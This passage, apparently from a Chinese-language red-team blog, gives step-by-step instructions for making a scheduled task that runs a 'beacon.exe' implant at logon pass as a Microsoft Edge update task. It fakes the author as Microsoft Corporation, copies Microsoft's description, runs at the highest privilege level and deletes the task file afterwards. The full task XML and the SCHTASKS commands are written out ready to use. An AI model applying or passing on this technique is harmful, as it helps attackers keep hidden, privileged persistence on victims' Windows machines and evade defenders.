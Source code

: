 ```xml
        </Exec>
    </Actions>
</Task>
```

删除了任务创建时间 `<Date>`，与大多数任务保持一致。

修改创建者 `<Author>` 伪装成 Microsoft Corporation。

新增任务描述 `<Description>`：

```undefined
使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。
```

任务名称 `<URI>` 更换为 MicrosoftEdgeUpdateTaskMachineRelease。

将 `<UserId>` 做修改。使用当前管理员用户 SID 运行任务计划。

```bash
PS C:\Users\123> whoami /USER /FO LIST

用户信息
----------------

用户名: desktop-akrqv41\123
SID:    S-1-5-21-2973696153-3313763339-1684698060-1001
```

`<LogonType>` 设置为当前登录类型为 Token，暂时没搞清楚原理，就保持默认。

由于没有用 SID 为了避免运行后完整性级别是中等，这里主动设置完整性级别 `<RunLevel>` HighestAvailable，提升为 Hgih 完整性级别。

`<DisallowStartIfOnBatteries>` 和 `<StopIfGoingOnBatteries>` 改为 False，避免使用在笔记本电源时不执行任务。其子标签 `<Duration>` 和 `<WaitTimeout>` 也删除了，不删除会报错，不知道原因在哪。

修改完毕，powershell 输出重定向到文件。

```bash
echo '<?xml version="1.0" encoding="UTF-16"?><Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><RegistrationInfo><Author>Microsoft Corporation</Author><Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description><URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI></RegistrationInfo><Principals><Principal id="Author"><UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId><LogonType>InteractiveToken</LogonType><RunLevel>HighestAvailable</RunLevel></Principal></Principals><Settings><DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries><StopIfGoingOnBatteries>false</StopIfGoingOnBatteries><MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy><IdleSettings><StopOnIdleEnd>true</StopOnIdleEnd><RestartOnIdle>false</RestartOnIdle></IdleSettings></Settings><Triggers><LogonTrigger><StartBoundary>2023-04-26T16:56:00</StartBoundary></LogonTrigger></Triggers><Actions Context="Author"><Exec><Command>C:\Users\123\Desktop\beacon.exe</Command></Exec></Actions></Task>' > task.xml
```

创建时使用 XML 创建任务，取名为 MicrosoftEdgeUpdateTaskMachineRelease。

```bash
PS C:\Users\123\desktop> SCHTASKS /Create /TN MicrosoftEdgeUpdateTaskMachineRelease /XML task.xml
成功: 成功创建计划任务 "MicrosoftEdgeUpdateTaskMachineRelease"。
PS C:\Users\123\desktop> rm task.xml
```
